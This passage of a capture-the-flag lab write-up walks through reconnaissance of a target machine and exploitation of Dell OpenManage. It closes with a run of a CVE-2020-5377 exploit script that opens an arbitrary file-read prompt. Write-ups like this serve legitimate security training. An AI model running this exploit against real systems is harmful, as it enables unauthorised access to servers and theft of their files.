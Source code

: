 I copied the 2 files on my machine using the `get <file_name>` command. The image file showed an error, and the text file contained the Credit Card info, both being useless 

Port 22, SSH, would be useless without any user ID, password or private key.

Then comes port 80, a website which doesn't help much. Even subdirectories using dirsearch don't help much. All the sub-directories were inaccessible.

Port 3389, the RDP port, also requires a username and password to log into the remote desktop.

Port 1131 is useful. Searching for 'rxmon' on the net, we get that 'Dell OpenManage' is running on that port. Logging to the port on the browser, we see a login page. 

<img src="https://github.com/user-attachments/assets/84252669-368d-45a0-8e2e-4fe4da86710d" width=300 height=300>

I tried to log in using the IP address of the machine and the default credentials `root:root`, but it didn't work.

Then I saw the 'About' at the bottom of the page. I clicked on that, and a new window popped up. It took some time to display the content. In the meantime, I tried `curl` to get the content but it showed only the
HTML thing.

```
┌──(kali㉿kali)-[~/Desktop/THM/HackSmarterSecurity]
└─$ curl https://10.10.228.242:1311/UOMSAAbout -k
<HTML xmlns:fo="http://www.w3.org/1999/XSL/Format">
<head>
<META http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>About&nbsp;
                                Dell EMC OpenManage </title>
<script type="text/javascript" src="/oma/js/favicon.js"></script><script language="javascript">
                                        changeFavicon('/oma/images/dell/favicon.ico'); 
                                </script>
</head>
<frameset border="0" rows="100%">
<frame framespacing="0" frameborder="no" marginwidth="0" marginheight="0" scrolling="auto" name="about" src="./UDataArea?plugin=com.dell.oma.webplugins.AboutWebPlugin&vid=">
</frameset>
<noframes></noframes>
</HTML>
```

I waited for the browser to load. Upon loading, I obtained the version number of the OpenManage: 9.4.0.2. I searched for its exploit, and upon searching , I found no exploit specifically
for this version. CVE-2020-5377 is available, but this exploit is for version 9.4.0.0. I tried to use the 9.4.0.0 version exploit on the target machine, and it did worked.

```
┌──(kali㉿kali)-[~/Desktop/THM/HackSmarterSecurity]
└─$ python3 CVE-2020-5377.py <Attacker_IP> <Target_IP>:<Target_Port>
Session: B37FD2868A9D0BC5F3DA99CC4B55AA9C
VID: A51B88FDFFA57D2E
file >
```
